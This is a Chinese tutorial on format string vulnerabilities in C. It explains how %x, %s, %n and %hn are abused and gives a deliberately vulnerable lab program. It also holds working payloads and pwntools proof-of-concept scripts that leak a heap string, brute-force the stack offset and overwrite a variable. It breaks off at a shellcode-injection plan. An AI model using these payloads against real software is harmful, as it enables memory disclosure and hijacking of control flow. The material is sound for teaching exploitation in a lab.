










# 格式化字符串溢出

## 格式化字符串概述
### printf 是干什么的
printf 是 C 语言里用来“打印”的函数。比如：

```c
printf("我的年龄是 %d 岁", 25);
```
- 屏幕上会输出：我的年龄是 25 岁。

- "我的年龄是 %d 岁" 叫做格式字符串（format string）。

- %d 是一个占位符，表示“这里要填一个整数”。

- 25 是真正填进去的值。

**关键点**：printf 怎么知道 %d 要填 25？它靠的是后面的参数。你写几个占位符，它就去后面取几个参数。

### printf 的一个“致命设计”
printf 的参数个数是不固定的。你可以这样写：

```c
printf("你好");                    // 0 个占位符，0 个参数
printf("%d", 10);                  // 1 个占位符，1 个参数
printf("%d %d %d", 1, 2, 3);       // 3 个占位符，3 个参数
```
>C 语言为了支持这种“可变参数”，用了一个特殊机制：printf 不检查你给了几个参数，它完全根据格式字符串里的占位符来决定去取几个参数。

**类printf函数簇的第一个可利用点：参数不匹配时难以发现**

- printf()是一个参数长度可变函数，仅仅看参数数量无法发现问题
- 为了查出不匹配，编译器需要了解printf()的运行机制，然而编译器通常不做这类分析
- 若格式字符串在程序运行期间生成(如用户输入)，则编译器无法发现不匹配

## 格式化字符串漏洞
>格式化字符串漏洞的本质是：printf 完全信任格式字符串，根据占位符去栈上取参数。如果用户能控制格式字符串，就能让 printf 越界读取栈内存（%x）、读任意地址（%s）、写任意地址（%n），最终控制程序

**概述**
C 语言中的 printf() 函数被用来根据格式打印字符串。它的第一个参数被称为格式化字符串，它定义了字符串应该如何被格式化。格式化字符串使用占位符，这些占位符由% 字符标记，供 printf()函数在打印时填充数据。格式化字符串的使用不仅限于 printf() 函数，许多其他函数，如 sprintf()、fprintf() 和 scanf() 也使用格式化字符串。一些程序允许用户提供格式化字符串的全部或部分内容。如果这些内容未经过滤，恶意用户可以利用这个机会使程序运行任意代码。这样的问题被称为格式化字符串漏洞
### 漏洞是怎么产生的

- 正常写法：

    ```c
    printf("%s", 用户输入);
    ```
    这里 "%s" 是固定的格式字符串，用户输入只是被当作要打印的字符串，不会被解释成占位符。安全。

- 有漏洞的写法：

    ```c
    printf(用户输入);
    ```
    这里用户输入直接变成了格式字符串。如果用户输入里有 %x、%s、%n，printf 就会把它们当成占位符来解释。

### printf 内部的取参数原则

在 32 位程序里，函数调用时，参数是放在栈上的。printf 内部有一个“参数指针”，一开始指向第一个可变参数的位置（也就是格式字符串后面的第一个参数）。

- 看到 %d，它就取当前位置的 4 个字节，当作整数打印，然后把指针往后移 4 字节。

- 看到 %x，同样取 4 字节，按十六进制打印，指针后移。

- 看到 %s，取 4 字节当作地址，然后去那个地址读字符串，指针后移。

- 看到 %n，取 4 字节当作地址，然后把“前面已经打印了多少个字符”写入那个地址，指针后移。

问题来了：如果用户输入的格式字符串里有 %x，但后面根本没有提供参数，printf 不会报错。它会继续从栈上往后取——取到的可能是其他变量的值、函数的返回地址、甚至是你自己输入的数据。

>这就是漏洞的本质：printf 会“越界”去读它本不该读的栈内存。


### 三个“武器”：%x、%s、%n
1. %x —— 偷看栈内存
    - %x是printf规定的一种输出类型，unsigned int，输出无符号16进制数
       
    ```c
    printf("%x %x %x %x");
    ```
    - 后面没有参数。printf 会从栈上连续取 4 个 4 字节的值，按十六进制打印出来。

    - 这些值可能是：

      - 其他局部变量

      - 函数的返回地址

      - 你输入的数据（因为你的输入也在栈上）

    - 效果：攻击者可以“偷看”程序内部的内存数据

2. %s —— 读任意地址的内存
    - %s，printf规定的另一种输出类型，char*/wchar_t*，输出字符串

    - %s 会把栈上的一个值当作地址，然后去那个地址读字符串。

      

    - 如果能控制栈上的某个值（比如把你的输入放在栈上），让它变成一个你想读的地址，那么 %s 就会去读那个地址的内容。

    - 效果：攻击者可以读任意地址的内存

3. %n —— 写任意地址的内存（最危险）

    - %n 是 printf 的一个特殊占位符：它不输出任何东西，而是把“前面已经输出了多少个字符”写入一个地址。
      

    ```c
    int i;
    printf("12345%n", &i);   // 前面输出了 "12345"，共 5 个字符，所以 i = 5
    ```
    - 攻击者可以控制“前面输出多少个字符”（用 %100x 输出 100 个字符，用 %1000x 输出 1000 个字符）。

    - 攻击者可以控制“写入哪个地址”（把地址放在输入里，让 %n 去取）。

    - 于是，攻击者可以往任意内存地址写入任意值。

    - 效果：这叫任意内存写入。攻击者可以修改关键变量、修改函数返回地址，从而控制程序执行流。



```text
\xef\xbe\xad\xde%.100x%6$n
```
逐段拆解：

1. \xef\xbe\xad\xde
   - 这是 4 个字节，组成一个地址：0xdeadbeef（小端序，最低字节在前）。

     - \xef 是最低字节

     - \xde 是最高字节

     - 合起来就是 0xdeadbeef

   - 这个地址就是攻击者想写入的目标地址。

2. %.100x
   - 输出一个十六进制数，宽度补到 100 个字符。

   - 作用：让 %n 之前已经输出了 100 个字符（加上前面 4 个地址字节，实际是 104，但这里简化说 100）。

   - 这样 %n 就会写入值 100。

3. %6$n
   - 这是 %n 的“直接参数访问”写法。

   - 6$ 表示“第 6 个参数”。

     - %6$n 的意思是：取第 6 个参数，把它当作地址，把“已输出字符数”写入那个地址。

     - 为什么是第 6 个？

   - 因为攻击者通过实验知道，他放在输入开头的那个地址（0xdeadbeef），正好位于 printf 参数指针的第 6 个位置。

   - 所以用 %6$n 直接定位到那个地址，不用写一堆 %x。

4. 整体效果
   - 输入开头放了地址 0xdeadbeef。
     - 为什么地址要放在输入开头
       - printf 取参数是从栈上取的
       - printf 不知道哪些是“真正的参数”，哪些是输入。它只是机械地往后取。
       - 输入在栈上，printf 的参数指针迟早会移动到输入所在位置。把地址放在输入开头，就是为了让参数指针移动到那里时，取到的值正好是你想要写入的目标地址。
     - 为什么不放在中间或末尾
       - 偏移量固定，方便计算
   - %.100x 输出 100 个字符。

   - %6$n 把 100 写入第 6 个参数指向的地址，也就是 0xdeadbeef。

   - 结果：内存地址 0xdeadbeef 处的值被改成 100。


## 实验演示
### 漏洞c程序
```c
unsigned int target = 0x11223344;      // 一个全局变量，值会被攻击者改
char *secret = "A secret message\n";   // 一个秘密字符串，存在堆里

void myprintf(char *msg) {
    printf(msg);   // 漏洞在这里！直接把用户输入当格式字符串
}

int main(int argc, char *argv) {
    char buf[1500];
    int length = fread(buf, sizeof(char), 1500, stdin);  // 从网络读最多1500字节
    printf("Input size: %d\n", length);
    myprintf(buf);   // 把用户输入传给有漏洞的函数
    return 1;
}
```

**关键点**：程序把用户通过网络发来的数据，原封不动地当成 printf 的格式字符串。这意味着用户输入的 %x、%s、%n 都会被 printf 解释执行。


**输入大量%s将栈上的数据作为地址去读取这些地址的数据，造成程序崩溃**

- 因为栈上的数据基本都不是合法地址，去读取这些地址的数据就会导致程序崩溃

- 根据输出的信息可以看到缓冲区地址在栈上，secret message地址在堆上，target地址是全局变量


### 攻击流程

#### 栈数据读取【%x，%p】
```
./format <<< 'AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p' 
``` 
- 由于我们的输入也会在栈上，所以开头输入的AAAA会在栈上的某个位置，该位置，%p会依次从栈顶取出栈上的数据并打印成指针，输出格式更清晰（带 0x 前缀）【也可以用%x，不过不方便计算偏移量】
- 只要输入的%p足够多一定会取出刚刚我们输入的AAAA的十六进制格式（0x41414141）
- 0x41414141距离第一个数据的间距就是偏移量


经过计算（数数），	0x41414141在第52个，所以此次偏移量就是52，但是由于每次偏移量都会变所有需要脚本动态获取偏移量

#### 任意地址数据读取【%s】

**读取堆上的secret message**

- 地址：0x5662b008
- 小端序：\x08\xf0\x58\x56

**payload**

```
\x08\xb0\x62\x56%52$s
```

由于每次运行程序时的地址都不同因此需要使用python脚本

**POC**
```
from pwn import *

p = process('./format')

# 依次读取三个地址
p.recvuntil(b"input buffer's address: ")
buf_addr = int(p.recvline().strip(), 16)

p.recvuntil(b"secret message's address: ")
secret_addr = int(p.recvline().strip(), 16)

p.recvuntil(b"target variable's address: ")
target_addr = int(p.recvline().strip(), 16)

log.info(f"buf    = {hex(buf_addr)}")
log.info(f"secret = {hex(secret_addr)}")
log.info(f"target = {hex(target_addr)}")

# 等待输入提示（注意：程序输出里可能有空格和换行差异，见下面说明）
p.recvuntil(b"Waiting for user input")

# 构造攻击载荷：地址 + %52$s
payload = p32(secret_addr) + b"%52$s"
log.info(f"payload = {payload}")
log.info(f"payload hex = {payload.hex()}")
p.sendline(payload)

# 打印程序输出
print(p.recvall(timeout=2).decode(errors='replace'))

```



- 问题现象
  - POC 发送载荷后，程序只返回 8 个字节。

  - 程序输出里看不到攻击效果（没有 A secret message，也没有 %52$p 的输出）。

  - receiving all data: Done (8B) 意味着收到的数据非常少。

- 根本原因：
  - fread 在等 EOF，p.sendline 不关 stdin
  - 程序是怎么读输入的
    ```c
    char buf[1500];
    int length = fread(buf, sizeof(char), 1500, stdin);
    ```
    - fread 会一直读，直到：读满 1500 字节，或遇到 EOF（stdin 被关闭）。

  - p.sendline 做了什么
    - p.sendline(payload) 只做一件事：把数据写到 stdin。

    - 它不会关闭 stdin，所以 fread 发完数据后还在等更多数据，程序卡在 fread 里出不来，后面的 printf(msg) 永远不会执行。

- 解决方法：发送后关闭 stdin
  ```python
  p.sendline(payload)
  p.shutdown('send')   # 关键！
  ```
  p.shutdown('send') 会关闭管道的一端，让 fread 收到 EOF，从而结束读取，程序继续往下执行，进入 printf(msg)。

- 修正后的 POC 结构
  ```python
  from pwn import *
  import re

  p = process('./format')

  # 1. 读取程序输出，解析地址
  data = p.recvuntil(b"Waiting for user input", timeout=3).decode(errors='replace')
  secret_addr = int(re.search(r"secret message's address:\s+(0x[0-9a-f]+)", data).group(1), 16)

  # 2. 构造载荷
  payload = p32(secret_addr) + b"%52$s"

  # 3. 发送，并关闭 stdin
  p.sendline(payload)
  p.shutdown('send')   # ← 关键一步

  # 4. 接收输出
  out = p.recvall(timeout=3)
  print(out.decode(errors='replace'))
  核心就多了一行 p.shutdown('send')。
  ```

- 使用python脚本寻找栈偏移量（数可能会数错）
  ```py
  from pwn import *
  import re

  for offset in range(1, 61):
      p = process('./format')
      data = p.recvuntil(b"Waiting for user input", timeout=3).decode(errors='replace')
      secret_addr = int(re.search(r"secret message's address:\s+(0x[0-9a-f]+)", data).group(1), 16)

      payload = p32(secret_addr) + f"%{offset}$s".encode()
      p.sendline(payload)
      p.shutdown('send')   # 关键！

      out = p.recvall(timeout=2).decode(errors='replace')
      p.close()

      if "A secret message" in out:
          log.success(f"找到！偏移量 = {offset}")
          print(out)
          break
      else:
          log.info(f"偏移量 {offset}: 失败")
  ```
  

#### 修改任意地址中的数据

**修改target的值为0x5000**

- 使用%n（%n会将已经输出的字符长度写入指定地址中）
- 0x5000就是十进制的20480，已经输出了target地址4个字符还需要使用%20476x补20476个空格到20480

**payload**
```
target地址+%.20476x+%52$n
```

**POC**

```
from pwn import *
import re

p = process('./format')

# 1. 读取程序输出，解析地址
data = p.recvuntil(b"Waiting for user input", timeout=3).decode(errors='replace')
target_addr = int(re.search(r"variable's address:\s+(0x[0-9a-f]+)", data).group(1), 16)

# 2. 构造载荷
payload = p32(target_addr) +b"%20476x"+ b"%52$n"

# 3. 发送，并关闭 stdin
p.sendline(payload)
p.shutdown('send')   # ← 关键一步

# 4. 接收输出
out = p.recvall(timeout=3)
print(out.decode(errors='replace'))
```



**改成 0xAABBCCDD（大数值）**

- 目标：把 target 改成 0xAABBCCDD（约 28 亿），这是个很大的数。

- 问题：如果直接用 %n，需要输出 28 亿个字符，程序要跑几个小时，不现实。

- 解决方法：用 %hn（一次写 2 字节）代替 %n（一次写 4 字节）。

  - 0xAABBCCDD 拆成两个 2 字节：高 2 字节 0xAABB，低 2 字节 0xCCDD。

  - 分别写两个地址：target 和 target + 2。

  - 先写低 2 字节：输出 0xCCDD（52445）个字符，用 %hn 写入 target。

  - 再写高 2 字节：输出 0xAABB（43707）个字符，用 %hn 写入 target + 2。

  - 注意：第二次输出是在第一次的基础上累加的，所以如果第一次输出了 52445 个字符，第二次要输出到 43707 的话，需要回绕（因为 %hn 只取低 16 位，52445 + X ≡ 43707 mod 65536，X = 56798）。

    - 因此先写小的值，再写大的值，减少回绕的麻烦。
    - 先写高字节再写低字节
  
**payload**

```
target+2地址+target地址+%43699x+%52$hn+%8738x+%53$hn
```

**POC**

```
from pwn import *
import re

p = process('./format')

# 1. 读取程序输出，解析地址
data = p.recvuntil(b"Waiting for user input", timeout=3).decode(errors='replace')
target_addr = int(re.search(r"variable's address:\s+(0x[0-9a-f]+)", data).group(1), 16)

# 2. 构造载荷

high_target=target_addr+2
payload = p32(high_target) +p32(target_addr)+b"%43699x"+ b"%52$hn"+b"%8738x"+b"%53$hn"

# 3. 发送，并关闭 stdin
p.sendline(payload)
p.shutdown('send')   # ← 关键一步

# 4. 接收输出
out = p.recvall(timeout=3)
print(out.decode(errors='replace'))
```




#### 注入shellcode

**攻击流程**

- 找到返回地址在栈上的位置。

- 把 shellcode 放在输入里。

- 用 %n 修改返回地址，指向 shellcode。


**动态调试分析程序漏洞过程**
```
buffer's address:          0xffffc8d0 
secret message's address:  0x56557008
target variable's address: 0x5655901c
```